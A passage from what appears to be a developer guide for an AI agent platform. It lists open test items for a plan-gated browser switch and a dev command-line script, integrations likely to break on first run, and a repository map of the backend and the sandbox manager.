| 23 | The browser switch for a user who is not on Max | The Max half ran on 2026-10-05 (`switched on`, the container re-created with the browser at the next wake, three turns in which Scout used it). Still open: set the plan to Pro and run `dev-user.ts browser` again: `switched off`, and after the next wake the container is locked again (`curl` to a public site through the proxy answers 403) |
| 25 | The dev script's `approve` and `pr-review` on the server | `send`, `status`, `browser`, `messages`, `activity` and `memories` ran against real data on 2026-10-05. Still open: `approve` on a waiting approval, and `pr-review --repo <owner>/<name> --state on` with a repo the test user's GitHub account administers |

Most likely to break on the first real run:
- Hermes config keys and its run API
- `docker cp` into a read-only container's volume
- Polar payload details (metadata copied to the subscription and renewal orders, `order.subscription` period dates)
- LiteLLM's key `aliases` and `/spend/logs` filter
- WhatsApp template setup (one body variable; approval template buttons in Approve, Reject order)
- The Claude Code sign-in screen parsing in the pseudo-terminal, and the exact CLI flags of the pinned version
- Composio's GitHub trigger payload and action names (pull-request review)
- Pages that redirect to another path: on Hermes `read_page` refuses those unless the target was seen
- The moment the vm-manager records browser seconds, against the after-turn usage sync and against a turn reversed as our fault
- How each engine treats the memory block at the top of a message, and whether it saves with `remember` or with its own memory tool

---

## 13. Repository map

```
beckend/
  openapi/openapi.yaml        REST + webhook contract
  src/api/                    Hono app, spec-driven router, middleware, routes/, /mcp, Bull Board
  src/worker/                 runner (lock, retries), job registry, schedules
  src/modules/
    auth/                     users, sessions, link codes, channel links, waitlist
    events/                   intake, queues, cleanup
    channels/                 adapters (telegram, whatsapp, sendblue, web), messages, outbound, SSE, media, files
    orchestrator/             turn flow (and the engine of the turn in progress), process-message, Jev routing, approvals, sandbox tokens, lifecycle, gRPC client, lock, agent settings + Claude sign-in, the crew list, Scout's browser switch, shared memory + the secret check, the memory block and the recap
    platform-mcp/             MCP server + tools (core, apps, automations, web, memory), seen web addresses
    integrations/             Composio catalog/client/connections, user MCP servers, BYOK, git gateway, web page reader, web search
    billing/                  plans, credits/ledger, usage, app-action and paid-tool charges, LiteLLM, Polar, coupons, jobs
    automations/              automations + jobs, pull-request review
    admin/                    audit, alerts, metrics, health, backup
  src/shared/                 config, db, redis, crypto, errors, ids, logger, rate limits
  src/wiring.ts               connects modules through their hooks
  migrations/                 SQL migrations (drizzle-kit)
  proto-gen/                  generated gRPC client
  infra/                      docker-compose, Caddy, LiteLLM, Squid, egress test, Dockerfile
  scripts/                    migrate, openapi-sync, restore-test, load-test, dev-user (a user, a turn and its traces from the command line)
  test/                       done-when tests per phase, plus one file per later feature
  docs/                       mvp-hld.md, deployment.md, security-checklist.md, this guide

vm-manager/
  proto/vm/v1/vm.proto        gRPC contract (source of truth)
  cmd/vm-manager/             main
  internal/                   config, store, docker, sandbox (state machine + loops), grpcserver, bridge, egress, platformfile, integration
  migrations/                 sandboxes + awake_periods
  agent-image/                Dockerfile, Bridge (Python) + tests
  docs/build-report.md        vm-manager design vs built
```
